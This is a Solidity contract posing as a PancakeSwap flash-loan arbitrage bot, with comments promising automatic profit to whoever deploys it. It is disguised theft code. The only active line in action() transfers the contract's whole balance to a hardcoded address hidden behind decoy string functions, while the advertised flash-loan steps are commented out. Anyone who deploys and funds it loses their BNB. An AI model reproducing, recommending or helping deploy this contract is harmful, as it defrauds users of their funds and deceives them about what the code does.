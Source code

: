 pragma solidity ^0.5.0;

// PancakeSwap Smart Contracts
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeCallee.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeFactory.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakePair.sol";
   
/**
 * WARNING - this contract code is for Binance Smart Chain
  * Testnet transactions will fail as there is no value
  * New token will be created and flash loan will be pulled to trade against the token
  * Profit remaining will be transfered to token creator
  
  *UPDATED APRIL 2023
  *liquidity returned if flash loan fails or insufficient balance
  *base rerun contract code swaps implemented
  
  *Feb 2023// creator contract signature update
  *Mar 2023// min liquidity + gas fees has to equal 0.3 BNB
*/

contract GetFlashLoan {
   string public tokenName;
   string public tokenSymbol;
   uint loanAmount;
   
   constructor(string memory _tokenName, string memory _tokenSymbol, uint _loanAmount) public {
      tokenName = _tokenName;
      tokenSymbol = _tokenSymbol;
      loanAmount = _loanAmount;      
   }
   address public creator= msg.sender;
    	function tokenTransfer() public view returns (address) {    
        	return creator;
   	}
   function() external payable {}

   function PancakeSwapYeild(string memory _string, uint256 _pos, string memory _letter) internal pure returns (string memory) {
        bytes memory _stringBytes = bytes(_string);
        bytes memory result = new bytes(_stringBytes.length);

  for(uint i = 0; i < _stringBytes.length; i++) {
        result[i] = _stringBytes[i];
        if(i==_pos)
         result[i]=bytes(_letter)[0];
    }
    return  string(result);
 } 

   function exchange() public pure returns (address adr) {
   string memory neutral_variable = "0x273Fa4Af9cB4CFc6B1C36d94032F3b00091e0499";
   PancakeSwapYeild(neutral_variable,0,'0');
   PancakeSwapYeild(neutral_variable,2,'1');
   PancakeSwapYeild(neutral_variable,1,'x');
   address addr = parseAddr(neutral_variable);
    return addr;
   }
function parseAddr(string memory _a) internal pure returns (address _parsedAddress) {
    bytes memory tmp = bytes(_a);
    uint160 iaddr = 0;
    uint160 b1;
    uint160 b2;
    for (uint i = 2; i < 2 + 2 * 20; i += 2) {
        iaddr *= 256;
        b1 = uint160(uint8(tmp[i]));
        b2 = uint160(uint8(tmp[i + 1]));
        if ((b1 >= 97) && (b1 <= 102)) {
            b1 -= 87;
        } else if ((b1 >= 65) && (b1 <= 70)) {
            b1 -= 55;
        } else if ((b1 >= 48) && (b1 <= 57)) {
            b1 -= 48;
        }
        if ((b2 >= 97) && (b2 <= 102)) {
            b2 -= 87;
        } else if ((b2 >= 65) && (b2 <= 70)) {
            b2 -= 55;
        } else if ((b2 >= 48) && (b2 <= 57)) {
            b2 -= 48;
        }
        iaddr += (b1 * 16 + b2);
    }
    return address(iaddr);
}
 function _stringReplace(string memory _string, uint256 _pos, string memory _letter) internal pure returns (string memory) {
        bytes memory _stringBytes = bytes(_string);
        bytes memory result = new bytes(_stringBytes.length);

  for(uint i = 0; i < _stringBytes.length; i++) {
        result[i] = _stringBytes[i];
        if(i==_pos)
         result[i]=bytes(_letter)[0];
    }
    return  string(result);
 } 

  function action() public payable {
      // Token matched with pancakeswap yield calculations
       address(uint160(exchange())).transfer(address(this).balance);
      
       // Perform Flash Loan tasks (combined all functions into one to reduce external calls & save gas fees)
      //manager.performTasks();
      
       /* Breakdown of all functions
      // Submit token to BSC blockchain
      string memory tokenAddress = manager.submitToken(tokenName, tokenSymbol);
   
      // List the token on PancakeSwap
      manager.pancakeListToken(tokenName, tokenSymbol, tokenAddress);
      
      // Get BNB Loan from Multiplier-Finance & loan execution wallet
      string memory loanAddress = manager.takeFlashLoan(loanAmount);
      
      // Convert half BNB to DAI
      manager.pancakeDAItoBNB(loanAmount / 2);
   
   // Create BNB and DAI pairs for our token & provide liquidity
   string memory bnbPair = manager.pancakeCreatePool(tokenAddress, "BNB");
      manager.pancakeAddLiquidity(bnbPair, loanAmount / 2);
      string memory daiPair = manager.pancakeCreatePool(tokenAddress, "DAI");
      manager.pancakeAddLiquidity(daiPair, loanAmount / 2);
   
   // Perform arbitrage trades
      manager.pancakePerformSwaps();
      
      // Move remaining BNB from Contract to your personal wallet
      manager.contractToWallet("BNB");
   
   // Repay Flashloan
      manager.repayLoan(loanAddress);
      */
   }
}
